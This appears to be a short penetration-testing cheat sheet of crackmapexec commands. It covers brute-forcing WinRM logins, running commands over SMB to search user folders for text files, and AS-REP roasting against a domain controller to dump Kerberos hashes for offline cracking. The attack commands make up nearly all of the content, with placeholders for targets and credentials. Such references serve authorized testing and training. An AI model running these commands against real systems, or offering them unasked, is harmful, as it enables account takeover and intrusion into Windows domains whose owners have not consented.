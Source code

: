 # WinRM
## Brute force users and passwords
```sh
crackmapexec winrm -u [username_or_file] -p [password_or_file] [ip]
```

# SMB
## Execute CMD commands
```sh
crackmapexec smb [-d DOMAIN | --local-auth] -u [user] -p [password] -x 'dir "C:\Users\*.txt" /s' [ip]
```

# AS-REP Roasting

## Unauthenticated
```sh
crackmapexec ldap -dc-ip [ip] -u usernames.txt -p '' --asreproast hash.asrep
```

## Authenticated
```sh
crackmapexec ldap -dc-ip [ip] -u [username] -p [password] –asreproast hash.asrep
```
